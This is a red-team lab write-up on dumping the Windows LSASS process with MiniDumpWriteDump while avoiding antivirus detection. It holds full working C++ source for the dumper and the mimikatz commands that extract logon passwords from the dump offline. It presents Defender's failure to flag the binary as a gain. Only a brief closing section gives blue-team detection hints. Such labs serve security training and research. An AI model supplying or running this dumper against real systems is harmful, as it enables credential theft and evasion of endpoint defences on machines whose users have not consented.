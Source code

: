 ```yaml
---
description: 'Evasion, Credential Dumping'
---
```


# Dumping LSASS without Mimikatz with MiniDumpWriteDump == Reduced Chances of Getting Flagged by AVs

This lab explores how one could write a simple `lsass` process dumper for extracting the passwords it contains later on with mimikatz. **Possibly** without getting detected by some AV vendors - if you have a way of testing this against some known EDR solutions, I would be interested to hear about your findings.

{% hint style="info" %}
The below code uses a number of known Windows API calls that could still be flagged by some antivirus agent or EDR solution.
{% endhint %}

## Code

Let's go ahead and compile this C++ code:

{% code title="dumper.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <DbgHelp.h>
#include <iostream>
#include <TlHelp32.h>
using namespace std;

int main() {
    DWORD lsassPID = 0;
    HANDLE lsassHandle = NULL; 
    HANDLE outFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 processEntry = {};
    processEntry.dwSize = sizeof(PROCESSENTRY32);
    LPCWSTR processName = L"";

    if (Process32First(snapshot, &processEntry)) {
        while (_wcsicmp(processName, L"lsass.exe") != 0) {
            Process32Next(snapshot, &processEntry);
            processName = processEntry.szExeFile;
            lsassPID = processEntry.th32ProcessID;
        }
        wcout << "[+] Got lsass.exe PID: " << lsassPID << endl;
    }

    lsassHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, lsassPID);
    BOOL isDumped = MiniDumpWriteDump(lsassHandle, lsassPID, outFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

    if (isDumped) {
        cout << "[+] lsass dumped successfully!" << endl;
    }

    return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/createminidump.exe" caption="CreateMiniDump.exe" %}

Do not forget to add `dbghelp.lib` as a dependency in the Linker &gt; Input settings for your C++ project if the compiler is giving you a hard time:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-01-44.png)

## Execution Demo

1. Execute CreateMiniDump.exe \(compiled file above\) or compile your own binary
2. Lsass.dmp gets dumped to the working directory
3. Take the lsass.dmp offline to your attacking machine
4. Open mimikatz and load in the dump file 
5. Dump passwords

{% code title="attacker" %}
```csharp
.\createminidump.exe
.\mimikatz.exe
sekurlsa::minidump c:\temp\lsass.dmp
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/peek-2019-03-23-22-16.gif)

### Why it's worth it?

See how Windows Defender on Windows 10 is flagging up mimikatz immediately... but allows running CreateMiniDump.exe? Good for us - we get lsass.exe dumped to `lsass.dmp`:

![](../../.gitbook/assets/peek-2019-03-23-21-25.gif)

..which then can be read in mimikatz offline:

![](../../.gitbook/assets/screenshot-from-2019-03-23-21-26-41.png)

Of ourse, there is procdump that does the same thing and it does not get flagged by Windows defender, but it is always good to know there are alternatives you could turn to if you need to for some reason.

## Observations

As mentioned earlier, the code above uses a native windows API call `MiniDumpWriteDump` to make a memory dump of a given process. If you are on the blue team and trying to write detections for these activities, you may consider looking for processes loading in `dbghelp.dll` module and calling `MiniDumpWriteDump` function:

![](../../.gitbook/assets/screenshot-from-2019-03-23-17-08-29.png)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot" caption="" %}

